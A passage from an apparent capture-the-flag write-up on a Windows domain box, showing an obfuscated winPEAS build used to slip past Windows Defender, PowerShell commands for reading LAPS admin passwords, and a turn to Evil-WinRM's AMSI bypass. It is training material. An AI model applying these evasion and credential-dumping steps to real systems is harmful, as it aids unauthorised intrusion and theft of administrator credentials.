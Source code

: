 winPEAS releases has file winPEASany_ofs.exe which would indicate an obsfucated version of the winpeas executable. Upon trying this, it is also flagged by Windows Defender. Upon trying winPEASx64_ofs.exe, we have success, however nothing of great value is recovered from this scan.

## Access as svc_deploy

### LAPS Enumeration

At this point, I would like to discover if I have the ability to dump the administrator password from LAPS. 

From this webpage, I discover commands for going after the mc-mcs-admpwd attribute.

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps

We can confirm with the following command that LAPS is installed on the machine. The command successfully returns Admpwd.dll.

```
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
```

Unfortunately, the following returns no results, which would lead me to believe that I do not have permissions to dump the admin password from LAPS.

```
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```

The web page mentions LAPSToolkit.

https://github.com/leoloobeek/LAPSToolkit

This script allows me to view the admin password if I have access, else discover what Active Directory groups have access to view the admin password.

Upon moving LAPSToolkit.ps1 to the target machine and importing module, we run into ASMI

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> . .\ltk.ps1
At C:\Users\legacyy\Documents\ltk.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\Users\legacyy\Documents\ltk.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Evil-WinRM has a function built into it for AMSI Bypass. Lets try this. First, enter 'menu'


The evil-winrm menu is showing up quite poorly on this specific box, but we can at least see the Bypass-4MSI command available.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> menu
Enter PEM pass phrase:
The term 'Menu' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ Menu
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (Menu:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException[+] Bypass-4MSI
[+] services
[+] upload
```